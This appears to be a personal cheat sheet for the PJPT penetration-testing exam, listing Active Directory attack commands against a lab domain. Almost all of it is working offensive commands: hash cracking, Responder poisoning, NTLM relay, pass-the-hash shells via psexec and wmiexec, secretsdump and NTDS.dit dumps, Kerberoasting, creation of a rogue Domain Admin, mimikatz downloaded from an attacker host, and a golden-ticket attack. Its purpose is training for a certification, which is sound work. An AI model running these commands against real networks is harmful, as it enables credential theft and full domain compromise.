 # PJPT Active Directory Cheat Sheet
# ✅ Passed PJPT on First Attempt

# 🔐 Hashcat Commands
hashcat --help | grep NTLM
hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt
hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt --show
hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt --force
hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt --O

# 🧅 LMNR Poisoning
sudo responder -I eth0 -dPv

# 🔁 SMB Relay Attack
nmap --script=smb2-security-mode.nse -p445 <IP Address>
sudo mousepad /etc/responder/Responder.conf  # Disable SMB/HTTP
sudo responder -I eth0 -dPv
impacket-ntlmrelayx -tf targets.txt -smb2support
impacket-ntlmrelayx -tf targets.txt -smb2support -i
nc 127.0.0.1 11000

# 💻 Gaining Shell (PSEXEC)
impacket-psexec marvel.local/fcastle:'Password1'@<IP Address>
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:6c598d4edc98d0a0c9797ef98b869751 administrator@<IP Address>

# 💻 Gaining Shell (WMI/SMB)
impacket-wmiexec administrator@<IP Address> -hashes aad3b435...:7facdc498ed168...
impacket-smbexec administrator@<IP Address> -hashes aad3b435...:7facdc498ed168...

# 🌐 IPv6 Attack
sudo mitm6 -d marvel.local
impacket-ntlmrelayx -6 -t ldaps://<IP Address> -wh fakewpad.marvel.local -l lootme

# 🔍 ldapdomaindump
sudo ldapdomaindump ldaps://<IP Address> -u 'MARVEL\fcastle' -p Password1

# 🧠 BloodHound
sudo neo4j console
sudo bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns <IP Address> -c all

# 📤 CrackMapExec Post-Exploitation
crackmapexec smb <IP Range> -u fcastle -d MARVEL.local -p Password1
crackmapexec smb <IP Range> -u administrator -H aad3b435b... --local-auth
crackmapexec smb <IP Range> --local-auth --sam
crackmapexec smb <IP Range> --local-auth --shares
crackmapexec smb <IP Range> --local-auth --lsa
crackmapexec smb -L
crackmapexec smb <IP Range> -M lsassy

# 🧠 SecretsDump
impacket-secretsdump MARVEL.local/fcastle:Password1@<IP Address>

# 🧪 Dump Hashes from Machines
impacket-secretsdump MARVEL.local/fcastle:'Password1'@<IP Address>
impacket-secretsdump Administrator:@<IP Address> -hashes aad3b435...:7facdc498ed168...

# 🧂 Crack with Hashcat
hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt

# 🔑 Kerberoasting
sudo impacket-GetUserSPNs MARVEL.local/fcastle:Password1 -dc-ip <IP Address> -request
hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt

# 👑 Token Impersonation (Meterpreter)
getuid
load incognito
list_tokens -u
impersonate_token marvel\\fcastle
shell
whoami
rev2self

# 👑 Add Domain Admin via Net Commands
net user /add hawkeye Password1@ /domain
net group "Domain Admins" hawkeye /ADD /DOMAIN

# 💧 Watering Hole Attack
netexec smb <IP Address> -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=<IP Address>
sudo responder -I eth0 -dPv

# 📥 Mimikatz Transfer + Execution
python3 -m http.server 8080
Invoke-WebRequest -Uri "http://<Your_Kali_IP>:8080/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"
privilege::debug
sekurlsa::logonPasswords

# 🏴 Dump NTDS.dit
impacket-secretsdump MARVEL.local/pparker:'Password2'@<IP Address> -just-dc-ntlm

# 🔐 Crack with Hashcat Again
hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt
hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt --show

# 👑 Golden Ticket Attack with Mimikatz
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /User:Administrator /domain:AFC-RICHMOND.LOCAL /sid:S-1-5-21-839... /krbtgt:a9dde840... /id:500 /ptt
misc::cmd

# 🧨 Additional (Check Only – Do NOT Exploit)
# - ZeroLogon (Vulnerability Check)
# - PrintNightmare (Vulnerability Check)
